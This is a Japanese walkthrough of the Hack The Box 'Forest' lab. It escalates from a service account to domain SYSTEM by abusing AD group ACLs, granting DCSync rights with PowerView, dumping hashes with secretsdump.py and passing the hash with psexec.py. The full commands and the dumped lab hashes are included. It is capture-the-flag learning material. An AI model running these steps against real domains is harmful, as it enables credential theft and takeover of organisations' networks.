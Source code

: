 参照：[Hack The Box - Forest Walkthrough](https://youtu.be/kcv9cH-nLq8)

## Exchange Windows Permissionsグループへの自身の追加と新規アカウント作成

svc-alfrescoのノードにおいて、`Reachable High Value Targes`をクリックした結果：

![スクリーンショット 2021-12-19 14 45 45](https://user-images.githubusercontent.com/85237728/146665370-fa20347c-7222-461b-81f7-c07421e7e608.png)

-> `ACCOUNT OPERATORS`のメンバは`EXCHANGE WINDOWS PERMISSIONS`に対して**GenericAll**である。つまり`EXCAHNGE WINDOWS PERMISSIONS`にユーザを作ったり、自分自身を追加したりできる。

（GenericAllのヘルプ）
> The members of the group ACCOUNT OPERATORS@HTB.LOCAL have GenericAll privileges to the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL.<br>This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.

そして、`EXCHANGE WINDOWS PERMISSIONS`のメンバーは`HTB.LOCAL`に対して**WriteDacl**の権限がある！

（Write Daclのヘルプ）
> The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL.
> <br>With write access to the target object's DACL, you can grant yourself any privilege you want on the object.

まず、`net group`コマンドにて、`svc-alfresco`ユーザを`Exchange Windows Permissions`グループへ追加（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```

（`net group`や`whoami /groups`で確認）

注）addしたのにメンバーになってない場合は、一旦Evil-WinRMを^Cで抜けて、もう一度接続し直すとよい。

新規ドメインアカウントを作成する。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user shoebill Passw0rd! /add /domain
The command completed successfully.
```

新規ドメインアカウントshoebillを`EXCHANGE WINDOWS PERMISSIONS`に入れる（svc-alfrescoはACCOUNT OPERATORに属してるから可能）。

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Exchange Windows Permissions' shoebill /add
The command completed successfully.
```

（できれば、`Remote Management Users`にも属させておく）

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'Remote Management Users' shoebill /add
The command completed successfully.
```

-> *ここまでで、まず自分svc-alfrescoを`Excange Windows Permissions`に配属させ、さらに`Exchange Windows Permissions`に新規のアカウント**shoebill**をも配属させた。*

## PowerView.ps1によるDCSync

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Import-Module .\PowerView.ps1
```
> To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

```
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity 'DC=htb, DC=local' -Rights DCSync
```
＝「**htb.local**のアカウント**shoeiblll**に**DCSync**のprivilegeを持たせる」

注）`Add-DomainObjectAcl -PrincipalIdentity shoebill -TargetIdentity htb.local -Rights DCSync`ではエラー！（DCはDomain Component）.

> `Add-DomainObjectAcl`: Adds an ACL for a specific active directory object. This function modifies the ACL/ACE entries for a given Active Directory target object specified by `-TargetIdentity`.  These rights are granted on the target object for the specified `-PrincipalIdentity`.

DCSyncのprivielgeを持ったユーザが作成できたら、**secretsdump.py**でハッシュダンプ。

```
┌──(kali㉿kali)-[~]
└─$ secretsdump.py 'htb.local/shoebill:Passw0rd!@10.10.10.161'

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...
```

最後にPass the HashでAdminのシェルゲット

```
┌──(kali㉿kali)-[~]
└─$ psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file zEmdPRll.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service saol on 10.10.10.161.....
[*] Starting service saol.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


DCSync攻撃とは？...**自分がドメインコントローラになりすますことでドメイン内のユーザハッシュが上記のように取れる。**

”DCSyncの権限”という言葉ではなく、”DCSync”という攻撃の一種か。
DCSyncできるユーザは、DS-Replication-Get-Changesの権限とDS-Replication-Get-Changes-Allの権限をもっているユーザ。

## 何度やってもできなかったら...

```
*Evil-WinRM* PS C:\Users\svc-alfresco> $pass = ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco> $cred = New-Object System.Management.Automation.PSCredential('htb\harmj0y',$pass)
*Evil-WinRM* PS C:\Users\svc-alfresco> Add-DomainObjectAcl -Credential $cred -TargetIdentity 'DC=htb,DC=local' -PrincipalIdentity harmj0y -Rights DCSync
```

と設定してから

```
┌──(kali㉿kali)-[~] 
└─$ secretsdump.py 'htb.local/harmj0y:Passw0rd!@10.10.10.161'
```

を実行するとうまくいくかも（ここ：https://ranakhalil101.medium.com/hack-the-box-forest-writeup-w-o-metasploit-63070c9020e4 ではそうしてた。）
